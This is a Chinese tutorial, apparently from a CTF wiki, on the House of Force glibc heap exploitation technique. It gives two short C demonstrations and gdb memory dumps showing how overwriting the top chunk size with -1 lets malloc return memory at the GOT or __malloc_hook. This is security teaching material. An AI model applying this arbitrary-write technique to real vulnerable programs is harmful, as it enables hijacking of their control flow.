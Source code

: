 House Of Force
==============

介绍
----

House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。 但是由于年代久远《The
Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc
Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文： https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

原理
----

House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：

-  1.用户能够以溢出等方式控制到top chunk的size域
-  2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top
chunk的位置会发生上下浮动以适应堆内存分配和释放。

HOF的利用思想可以概括为一句话： 当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？ 答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证

::

    // 获取当前的top chunk，并计算其对应的大小
    victim = av->top;
    size   = chunksize(victim);
    // 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
    if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
    {
        remainder_size = size - nb;
        remainder      = chunk_at_offset(victim, nb);
        av->top        = remainder;
        set_head(victim, nb | PREV_INUSE |
                (av != &main_arena ? NON_MAIN_ARENA : 0));
        set_head(remainder, remainder_size | PREV_INUSE);

        check_malloced_chunk(av, victim, nb);
        void *p = chunk2mem(victim);
        alloc_perturb(p, bytes);
        return p;
    }

然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞。

::

    (unsigned long) (size) >= (unsigned long) (nb + MINSIZE)

一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

::

    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;

    /* Treat space at ptr + offset as a chunk */
    ##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))

之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)。

简单示例1
---------

在学习完HOF的原理之后，我们这里通过一个示例来说明HOF的利用 这个例子的目标是通过HOF来篡改\ ``malloc@got.plt``\ 实现劫持程序流程

::

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
        malloc(-4120);  // <=== 减小top chunk指针
        malloc(0x10);   // <=== 分配块实现任意地址写
    }

首先，我们分配一个0x10字节大小的块

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk
    0x602030:   0x0000000000000000  0x0000000000000000

之后把top chunk的size改为0xffffffffffffffff，在题目中这一步可以通过堆溢出等漏洞来实现。 因为-1在补码中是以0xffffffffffffffff表示的，所以我们直接赋值-1就可以。

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0xffffffffffffffff <=== top chunk size域被更改
    0x602030:   0x0000000000000000  0x0000000000000000

注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x0000000000602020 <=== top chunk此时一切正常
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

接下来我们执行\ ``malloc(-4120);``\ ，-4120是怎么得出的呢？ 首先明确要写入的目的地址，这里我编译的情况0x601020是\ ``malloc@got.plt``\ 的地址

::

    0x601020:   0x00007ffff7a91130 <=== malloc@got.plt

之后明确当前top chunk的地址，根据前面描述，top chunk位于0x602020 所以我们使用0x601020-0x602020-0x10=-4120,之所以要减去0x10是为了刨除chunk header的偏移
当调用\ ``malloc(-4120)``\ 之后，我们可以观察到top chunk被抬高到我们想要的位置

::

    0x7ffff7dd1b20 <main_arena>:\   0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x0000000000601010 <=== 可以观察到top chunk被抬高
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

之后，我们分配的块就会出现在0x601010+0x10的位置，也就是0x601020可以更改got表中的内容了。

简单示例2
---------

在上一个示例中我们演示了通过HOF使得top chunk的指针减小来修改位于其上面(低地址)的got表中的内容， 但是HOF其实也可以使得top chunk指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

::

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;                 <=== 修改top chunk size
        malloc(140737345551056); <=== 增大top chunk指针
        malloc(0x10);
    }

我们可以看到程序代码与简单示例1基本相同，除了第二次malloc的size有所不同。 这次我们的目标是malloc\_hook，我们知道malloc\_hook是位于libc.so里的全局变量值，首先查看内存布局

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

可以看到heap的基址在0x602000，而libc的基址在0x7ffff7a0d000，因此我们需要通过HOF扩大top chunk指针的值来实现对malloc\_hook的写。
首先由调试得知\_\_malloc\_hook的地址位于0x7ffff7dd1b10，采取计算0x7ffff7dd1b00-0x602020-0x10=140737345551056 经过这次malloc之后，我们可以观察到top chunk的地址被抬高到了0x00007ffff7dd1b00

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x00007ffff7dd1b00 <=== top chunk
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

之后，我们只要再次分配就可以控制0x7ffff7dd1b10处的\_\_malloc\_hook值了

::

    rax = 0x00007ffff7dd1b10
        
    0x400562 <main+60>        mov    edi, 0x10
    0x400567 <main+65>        call   0x400410 <malloc@plt>

小总结
------

在这一节中讲解了House Of Force的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

-  首先，需要存在漏洞使得用户能够控制top chunk的size域。
-  其次，需要用户能自由控制malloc的分配大小
-  第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF的方法进行利用。
